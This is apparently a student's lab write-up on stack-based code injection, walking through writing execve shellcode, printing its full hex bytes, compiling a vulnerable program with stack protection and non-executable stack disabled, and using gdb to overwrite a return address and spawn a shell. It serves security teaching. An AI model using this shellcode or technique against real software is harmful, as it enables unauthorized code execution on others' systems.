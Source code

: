 # 21110756_Nguyễn Đình Minh Chiến
# Lab_02 Code injection 
## 2.1. Preparing shell code
Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)

![13](13.png)
Run the following script to get the hex string of shellcode: `$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo` 

![14](14.png)
--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`

## 2.2. Preparing payload
Compile program with options to defeat stack protecting mechanism and code execution on stack: `$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04: `sudo ln -sf /bin/zsh /bin/sh`

![15](15.png)
## 2.3. Code injection 
Load vuln.out in gdb: `$> gdb vuln.out`

![16](16.png)

Set break point after strcpy instruction

Run program in gdb with injecting argument: `(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`

Watch the stack memory from esp (stack top): `(gdb-peda) x/80xb $esp`

![17](17.png)

![18](18.png)

![19](19.png)

Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with the value of esp: `set *<address of return address> = <address of esp>`

Continue executing program, you should now in the new bash shell: `(gdb-peda) continue`
![20](20.png)

->>`$_` <-- you are in the new bash.